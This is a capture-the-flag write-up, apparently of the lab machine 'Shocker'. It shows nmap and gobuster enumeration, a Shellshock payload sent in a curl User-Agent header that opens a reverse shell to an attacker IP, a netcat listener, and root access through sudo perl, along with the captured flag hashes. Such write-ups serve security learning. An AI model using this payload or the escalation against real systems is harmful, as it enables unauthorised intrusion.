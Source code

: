 ## Initial NMAP scan:

```bash
┌──(parallels㉿V35HR4J)-[~]
└─$ nmap 10.129.42.150 -T4                  
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-15 14:06 +0545
Nmap scan report for 10.129.42.150
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 27.29 seconds
```

## Enemurating Port 80:

gobuster gives /cgi-bin/, it's always worth checking for .sh files:

```bash                   
┌──(parallels㉿V35HR4J)-[~]
└─$ gobuster dir -u http://10.129.42.150/cgi-bin/ -x .sh -w /usr/share/wordlists/dirb/common.txt -t 30 

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.42.150/cgi-bin/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              sh
[+] Timeout:                 10s
===============================================================
2023/12/15 14:53:22 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 305]
/.htpasswd            (Status: 403) [Size: 305]
/.hta                 (Status: 403) [Size: 300]
/.htaccess.sh         (Status: 403) [Size: 308]
/.htpasswd.sh         (Status: 403) [Size: 308]
/.hta.sh              (Status: 403) [Size: 303]
/user.sh              (Status: 200) [Size: 118]
```

we can see the /user.sh file, small google leads to this [article](https://www.infosecarticles.com/exploiting-shellshock-vulnerability/) which explains the shellshock vulnerability.

```bash
┌──(parallels㉿V35HR4J)-[~]
└─$ curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.23/1234 0>&1' http://10.129.42.150/cgi-bin/user.sh
```

Got Our user flag:

```bash
┌──(parallels㉿V35HR4J)-[~]
└─$ nc -lnvp 1234 
listening on [any] 1234 ...
connect to [10.10.14.23] from (UNKNOWN) [10.129.42.150] 51598
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ cat `find / -name user.txt 2>/dev/null`
cat `find / -name user.txt 2>/dev/null`
448d885fa75622b2c6deb42100b9c967

```

## Privilege Escalation:

```bash
shelly@Shocker:/tmp$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
[GTFO](https://gtfobins.github.io/gtfobins/perl/) BINs FTW

```bash
shelly@Shocker:/tmp$ sudo perl -e 'exec "/bin/sh";'
cat /root/root.txt
c0998762c1cb296300d9e5e9509b8a89
```

# Takeaways:
- RECURCSIVE FUZZINGGGGGG!!!